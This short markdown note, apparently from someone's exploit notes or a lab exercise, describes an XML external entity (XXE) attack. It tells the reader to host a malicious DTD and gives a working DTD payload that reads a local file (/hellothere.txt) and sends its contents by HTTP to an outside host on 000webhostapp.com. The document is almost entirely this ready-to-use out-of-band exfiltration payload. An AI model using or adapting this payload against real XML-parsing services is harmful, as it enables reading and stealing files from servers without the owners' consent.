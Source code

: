 # EXPLOIT XXE
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

---
<!ENTITY % file SYSTEM "file:///hellothere.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
%eval;
%exfiltrate;
---
